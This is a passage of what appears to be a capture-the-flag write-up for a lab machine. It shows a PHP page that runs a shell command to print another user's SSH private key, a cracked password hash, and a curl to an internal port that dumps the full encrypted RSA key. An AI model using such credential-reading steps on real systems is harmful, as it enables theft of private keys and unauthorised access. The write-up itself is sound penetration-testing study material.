 ```
jimmy@openadmin:/$ cat logout.php 

<?php
   session_start();
   unset($_SESSION["username"]);
   unset($_SESSION["password"]);
   
   echo 'You have cleaned session';
   header('Refresh: 2; URL = index.php');
?>
```

Apparently it is a page with a login panel that when accessing executes the command cat /home/joanna/.ssh/id_rsa in the following line of the main.php: $output = shell_exec('cat /home/joanna/.ssh/id_rsa') 
The login validation has the password hashed in sha512 in the same main.php, if we crack it in [CrackStation](https://crackstation.net/) the result is "Revealed". I could do a port forwarding of the port that listens to the web page to show me the id_rsa of joanna, but being in the system as the user jimmy who is the owner, with a curl to the index.php and we could see the id_rsa.

```
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php

<pre>
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
